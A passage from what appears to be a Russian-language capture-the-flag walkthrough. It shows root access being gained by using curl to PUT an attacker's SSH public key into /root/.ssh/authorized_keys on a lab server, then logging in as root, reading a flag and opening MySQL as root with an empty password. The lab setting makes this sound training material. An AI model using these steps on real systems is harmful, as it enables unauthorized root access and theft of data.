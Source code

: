 Выводим и копируем созданный публичный ключ:

cat ~/.ssh/id\_ed25519.pub

![](Aspose.Words.9c531c30-d4d7-4354-b40f-2861995dab0b.027.png)

С помощью curl делаем PUT-запрос, чтобы передать ключ на сервер в папку authorized\_keys:

curl -X PUT http://192.168.122.205:9899/root/.ssh/authorized\_keys --data " ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEJHHw+Ys12uGzQRm/rd8iuO3gGuJIWN3OZhocEVyRM9 kk@kk"

![](Aspose.Words.9c531c30-d4d7-4354-b40f-2861995dab0b.028.png)

Благодаря этим действиям мы можем подключиться через SSH под пользователем root без пароля:

ssh <root@192.168.0.103>

![](Aspose.Words.9c531c30-d4d7-4354-b40f-2861995dab0b.029.png)

Мы получили полный доступ к серверу. Посмотрим флаг, который лежит в домашней директории.

![](Aspose.Words.9c531c30-d4d7-4354-b40f-2861995dab0b.030.png)

Теперь, как вариант, можем попытаться получить информацию из баз данных. Входим в mysql под пользователем root c использованием пароля, на строку “Enter password:” не обращаем внимания, жмем Enter:

mysql -u root -p

![](Aspose.Words.9c531c30-d4d7-4354-b40f-2861995dab0b.031.png)
